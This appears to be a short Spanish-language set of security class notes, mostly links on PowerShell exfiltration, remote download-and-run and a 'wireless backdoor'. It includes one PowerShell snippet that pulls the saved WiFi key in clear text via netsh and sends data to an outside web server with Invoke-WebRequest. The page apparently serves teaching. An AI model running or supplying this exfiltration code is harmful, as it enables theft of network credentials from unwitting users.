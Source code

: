 # Enviar una contraseña utilizando un servidor web
* https://www.jesusninoc.com/02/11/hacking-wifi-with-powershell/
# Formas de descargar y ejecutar ficheros desde un servidor en PowerShell utilizando Invoke-WebRequest
* https://www.jesusninoc.com/05/26/formas-de-descargar-y-ejecutar-ficheros-desde-un-servidor-en-powershell-utilizando-invoke-webrequest/
# Uncover Tiny URLs
* https://github.com/jesusninoc/ClasesSeguridad/blob/master/2018-03-08.md
# Enviar informacion sobre equipos utilizando un servidor web
* https://www.jesusninoc.com/12/02/obtener-serial-de-windows-con-powershell/
* https://www.jesusninoc.com/10/21/almacenar-entradas-cache-dns-en-un-fichero/

# Enviar la contraseña de la red WIFI a una web
```PowerShell
$contra = (netsh wlan show interface | Select-String SSID)[0] | %{
[String]$SSID=$_
$SSID=$SSID.replace("SSID","").replace(":","").trim()
$SSID
netsh wlan show profile name=$SSID key=clear | Select-String 'Contenido de la clave'
}

$contra="jlajsdf"
Invoke-WebRequest ("http://www.jesusninoc.com/"+$contra)
```

# Enviar la contraseña de la red WIFI a una web, creando tú mismo un servidor web

# Enviar la contraseña de la red WIFI a una web, creando tú mismo un servidor web en la red Tor

# Creating a wireless backdoor
https://www.jesusninoc.com/06/11/creating-a-wireless-backdoor/
